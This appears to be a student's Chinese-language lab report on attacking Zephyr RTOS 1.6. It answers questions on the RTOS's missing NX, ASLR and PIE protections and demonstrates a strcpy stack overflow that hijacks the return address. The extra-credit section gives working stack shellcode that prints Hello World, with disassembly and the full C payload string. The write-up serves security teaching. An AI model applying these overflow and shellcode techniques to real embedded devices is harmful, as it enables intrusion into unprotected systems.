

# part1
`注①：lab环境中的zephyr版本是1.6，报告和最新版有差距的地方，暂以课程环境中为准(即不特别说明和课件环境冲突的新改动)`  
`注②：第二部分的Extra是借用同学的*inx主力设备完成的，感谢ntdgy同学。`

## 1. Read the lab instructions above and finish all the tasks.

首先配置环境并编译HelloWorld：  
  

然后用长字符串+strcpy造成bof：  
  

换成AAAA，ra变成激动人心的41414141：  
  

## 2. Answer the questions in the Introduction section, and justify your answers. Simple yes or no answer will not get any credits.
- a. What security features does Zephyr have?
  首先看看zephyr编译出二进制的保护情况：  
      
  一片大红，可见没有任何现代保护措施，**简直就是裸奔** （这句话不是我说的，是教授说的）  
  再看看官方文档怎么说 https://docs.zephyrproject.org/latest/security/security-overview.html  
  看起来官方声称自己实现了部分如对金丝雀的支持，更多在说其对密码学和可信环境的兼容性（但听起来像画饼）

- b. Do applications share the same address space with the OS kernel?  
参考文档的描述 https://github.com/zephyrproject-rtos/zephyr/blob/main/doc/introduction/index.rst  
   
可见用户程序和内核共享地址空间。  

- c. Does Zephyr have defense mechanisms such as non-executable stack or Address Space Layout Randomization (ASLR)?  
  请参考问题a的回答。  
  + NX: 没有，参考Extra部分，可以执行shellcode
  + ASLR: 没有，如下图，运行两次程序，栈上数据地址不变  
  
    
    
  （ASLR负责随机化堆栈基址，而PIE配合ASLR随机化text段、data段和bss段地址，所以可以通过观测是堆栈地址是否变化判断ASLR是否开启，而观测全局变量（如字符串）地址则不行，因为demo的编译选项关闭了PIE）  
  更有趣的是似乎zephyr本身不支持PIE，如下图   
    
  当传递`-fpie`时，会发现zephyr内核的代码因为某些内联汇编无法编译为PIE。

- d. Do textbook attacks (e.g., buffer overflow or heap spray) work on Zephyr?  
  答案是肯定的，我们上述的报告中完成了bufferoverflow。  
  另外由于堆栈可执行，堆喷射也是有效的。  
  参考Extra部分，显然能想到的二进制利用方法都是有效的。

## 3. Change the EIP register to the value 0xdeadbeef, and show me the screenshot of the EIP value when the application crashes.
偏移0x10，根据要求将ra改成0xdeadbeef：  
  

## Extra Credit (10pt): Execute shell code on the stack. The shell code could be launching a shell or print a hello string


我编写了一个打印`"Hello, World!"`的shelllcode：
```
0x0101740       'AAAAAAAAAABBBB' ; buffer 10 byte, ebp 4 byte
0x010174E       0x52
0x010174F       0x17
0x0101750       0x10
0x0101751       0x00  ; 这里把ra覆盖成下一行（0x101752)
0x0101752       mov     ebp, esp
0x0101754       sub     esp, 10h
0x0101757       lea     eax, [ebp-10h]
0x010175A       mov     [ebp-10h], 'lleH'
0x0101761       push    eax
0x0101762       mov     [ebp-0Ch], 'W ,o'
0x0101769       mov     [ebp-8], 'dlro'
0x0101770       mov     [ebp-4], '!'
0x0101777       call    printk
```
编写思路：  

字符串放栈上并通过esp拿到准确的栈地址(其实没必要)，然后ret2kernel(printk)。  

弹shell也是可以的，zephyr可以支持一个简单的shell，但需要满足：
- 样例代码中需要有地方调用了shell（因为编译选项是O2）
- 配置中开启对shell的支持，我们的环境中应该还没有开启

否则就需要写一个巨大的shellcode直接把shell的静态代码放进去，但这并无必要，因为成功执行任意一段sc都足以证明可以执行任意静态代码。  

遇到的坑：  
zephyr本身不支持x86|i686标准的write系统调用(其实是我试过的所有syscall都不支持)，所以需要通过call printk完成输出。  

碎碎念：  

快速测试shellcode的方法：
```c
((void(*)(void))code)();
```

`printk`不是唯一的方法，比如在zephyr的编译选项中开启对CONSOLE输出的支持后可以使用<stdio.h>中的`printf`来输出。  

但似乎无论那种配置，zephyr本身都不支持syscall，而是通过自己实现的printf/kprintf调用自己实现的单个char io，唤起中断完成的。  
所以复用kernel里已有的代码是一个不错的选择。 

另外可能需要说明的是，`main.o`只是链接前的文件，最终运行的是`zephyr.elf`，所以call偏移的计算需要使用zephyr中的地址。  

以及因为strcpy遇到`\x00`会截断，所以需要ret到的是字符串而不是buff。  
又因为strcpy可以补遇到的第一个`\x00`，所以地址最高位的0是可以写入的，能完成ret2shellcode。  

我的代码： 
```c
#include <zephyr.h>
#include <misc/printk.h>
#include <string.h>

void overflow(char* str){
	char buff[10];
	strcpy(buff, str);
}


void main(void){
	char* str="AAAAAAAAAABBBB\x52\x17\x10\x00\x89\xE5\x83\xEC\x10\x8D\x45\xF0\xC7\x45\xF0\x48\x65\x6C\x6C\x50\xC7\x45\xF4\x6F\x2C\x20\x57\xC7\x45\xF8\x6F\x72\x6C\x64\xC7\x45\xFC\x21\x00\x00\x00\xE8\xC2\xF2\xFF\xFF";
	overflow(str);
}
```

全lab默认配置编译运行，成功输出了Hello World：
  
 